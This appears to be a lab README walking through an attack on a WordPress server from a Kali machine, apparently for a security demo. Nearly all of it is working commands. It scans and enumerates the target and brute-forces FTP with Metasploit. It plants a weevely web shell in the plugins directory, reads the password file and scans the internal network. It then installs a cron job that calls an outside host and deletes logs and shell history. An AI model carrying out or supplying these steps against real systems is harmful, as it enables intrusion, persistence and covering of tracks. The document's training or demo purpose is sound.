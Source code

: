 # Attack the WP Instance from the KALI System

1. SSH into the Kali Instance and run the from command line run the following chunks of code:

```
sudo su
export TARGET_IP=3.15.211.63 # <--Set this to the External IP Address of the WP Instance
```

Perform a nmap scan

```
nmap -Pn -A -T4 $TARGET_IP
```

Use nikto to scan the Web Server

```
nikto -h $TARGET_IP
```

Set the WPscan API token. You can get a free API token with 50 daily requests by registering at https://wpvulndb.com/users/sign_up. I purposely didn't want to save it to github or have it show in the recording of the demo.

```
bash
export TOKEN=     #Set this variable to your API token
exit
```

Run wpscan on your wordpress instance

```
wpscan --url $TARGET_IP/wordpress --enumerate p --api-token $TOKEN
```

Fetch a password list and add the WordPress password to the bottom to allow the brute force attack to be successful. Use Metasploit to perform the brute forcing.

```
wget https://raw.githubusercontent.com/danielmiessler/SecLists/master/Passwords/Default-Credentials/ftp-betterdefaultpasslist.txt
head -n 15 ftp-betterdefaultpasslist.txt > passwordlist.txt
echo "root:password123456" >> passwordlist.txt
sed -i 's/:/ /' passwordlist.txt
msfconsole -x "use auxiliary/scanner/ftp/ftp_login; set BRUTEFORCE_SPEED 3; \
  set STOP_ON_SUCCESS true; set RHOSTS $TARGET_IP; \
  set USERPASS_FILE passwordlist.txt; run; exit"
```

Set up a web shell with the compromised FTP credential

```
git clone https://github.com/epinna/weevely3.git
apt-get install -y python3 python3-pip curl
cd weevely3/
pip3 install -r requirements.txt --upgrade
./weevely.py generate mypassword maint.php
ftp -inv $TARGET_IP <<EOF
user root password123456
passive
cd /var/www/html/wordpress/wp-content/plugins/
put maint.php
bye
EOF
./weevely.py http://$TARGET_IP/wordpress/wp-content/plugins/maint.php mypassword
```

Run these commands on the webshell

```
whoami
uname -a
:audit_etcpasswd
cd /var/www/html
:file_download wordpress-4.4.tar.gz file
cd /var/www/html/wordpress/wp-content/plugins
:net_scan 172.31.44.1-172.31.44.10 255.255.255.0 1-666
```

SSH back into the WP instance and as root, make a bot that phones home:
```
sudo su
rm -f /var/www/html/wordpress/wp-content/plugins/phone
cp /usr/bin/nmap /var/www/html/wordpress/wp-content/plugins/phone
cat << "EOF" > /sbin/phonehome
HOMEBASE=$(curl -s http://www.malwaredomainlist.com/updatescsv.php | head -n 1 | cut -d"," -f3 | tr -d "\42")
/var/www/html/wordpress/wp-content/plugins/phone -sT $HOMEBASE -p 666 >> /var/www/html/wordpress/wp-content/plugins/instant-web-highlighter/logs.txt
rm -f /var/log/secure
history -c
EOF
chmod +x /sbin/phonehome
touch /var/spool/cron/root
echo "*/5 * * * * /sbin/phonehome > /dev/null" >> /var/spool/cron/root
history -c
```
